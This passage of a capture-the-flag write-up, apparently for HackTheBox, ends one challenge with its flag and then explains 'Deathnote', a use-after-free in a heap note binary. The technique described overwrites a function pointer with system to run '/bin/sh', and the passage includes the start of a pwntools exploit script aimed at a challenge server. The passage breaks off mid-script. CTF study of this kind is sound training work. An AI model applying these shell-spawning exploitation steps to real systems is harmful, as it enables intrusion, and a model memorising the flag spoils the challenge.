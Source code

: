 ![chall-sc](https://hackmd.io/_uploads/rJCvXQ1Ra.png)

Flag: `HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}`

# 7. Deathnote (_medium_)

Given a fully mitigated Executable and Linkable Format (ELF), there is an 'add' function that allows us to add data to an index, a 'show' function to display the data at an index, and a 'delete' function to remove previously stored data at an index

![chall-sc](https://hackmd.io/_uploads/SJSCuu-Cp.png)

![chall-sc](https://hackmd.io/_uploads/BkhkTPZCp.png)

![chall-sc](https://hackmd.io/_uploads/S1OZTDZ0T.png)

![chall-sc](https://hackmd.io/_uploads/S1cfpwZCa.png)

There is a use-after-free vulnerability where free(_(void \*\*)(8LL _ num + a1)) can result in the reuse of a previously released block of memory

![chall-sc](https://hackmd.io/_uploads/SymETw-Aa.png)

On the \_ function, there is v2 = (void (\_\_fastcall _)(\_QWORD))strtoull(_(const char \*_)a1, 0LL, 16) that converts our hexadecimal string to an unsigned long, and then calls v2(_(\_QWORD \*)(a1 + 8)). We can overwrite v2 to system and a1 + 8 to the string "/bin/sh", resulting in system("/bin/sh") and allowing us to achieve arbitrary code execution

![chall-sc](https://hackmd.io/_uploads/ryZDTvW06.png)

```python
from pwn import *
exe = './deathnote'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 83.136.252.248 33320".split(" ")[1:3]
context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6", checksec = 0)
ld = ELF("./glibc/ld-linux-x86-64.so.2", checksec = 0)
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()

def create(size: bytes, idx: bytes, data: bytes):
	sla('💀 ', b'1')
	sla('💀 ', e(str(size)))
```